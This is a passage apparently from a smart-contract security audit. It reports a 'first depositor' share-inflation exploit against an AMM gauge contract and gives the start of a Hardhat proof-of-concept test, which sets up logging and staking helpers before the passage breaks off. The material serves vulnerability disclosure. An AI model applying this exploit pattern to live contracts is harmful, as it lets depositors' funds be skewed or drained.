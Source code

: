 Both cases were evaluated (with and without staking 1 wei first). The attack scenario outputs a 100% more shares to Alice than Bob in comparison with the ethical/non-attack situation.

The code used to perform this test is the following:

    it("First Depositer Exploit", async function () {
            let userShares = []
            let userIntegral = []
            let userBalance = []

            let globalIntegral, totalStaked;
            let aliceBob = [alice, bob];

            // Starting Checkpoint
            await this.ammgauge.poolCheckpoint();
            await ethers.provider.send("evm_increaseTime", [1 * 24 * 60 * 60]); // 10 days
            
            const updateStates = async () => { 
                userShares = []
                userIntegral = []
                userBalance = []
                for (const user of aliceBob) {
                    let balances = ethers.utils.formatEther(await this.ammgauge.balances(user.address));
                    let currentShare = ethers.utils.formatEther(await this.ammgauge.perUserShare(user.address));
                    let currentStakedIntegral = ethers.utils.formatEther(await this.ammgauge.perUserStakedIntegral(user.address));
                    userShares.push(currentShare);
                    userIntegral.push(currentStakedIntegral);
                    userBalance.push(balances);
                }
                globalIntegral = await this.ammgauge.ammStakedIntegral()
                totalStaked = await this.ammgauge.totalStaked()
                console.log("  ")
                console.log("         ALICE / BOB");
                console.log(`Shares: ${userShares}`);
                console.log(`Integr: ${userIntegral}`);
                console.log(`Balanc: ${userBalance}`);
                console.log("  ")
                console.log("Global")
                console.log(`Integral: ${ethers.utils.formatEther(globalIntegral)}, TotalStaked: ${ethers.utils.formatEther(totalStaked)}`)
            }

            const stake = async (to, amount) => {
                await updateStates()
                console.log(" ")
                // Balance before
                let balanceBefore = await this.ammgauge.balances(to.address);
                // Stake
                await this.ammgauge.connect(to).stake(amount);
                expect(await this.ammgauge.balances(to.address)).to.be.eq(balanceBefore.add(amount));
                // await updateStates();
                console.log(" ")
            }
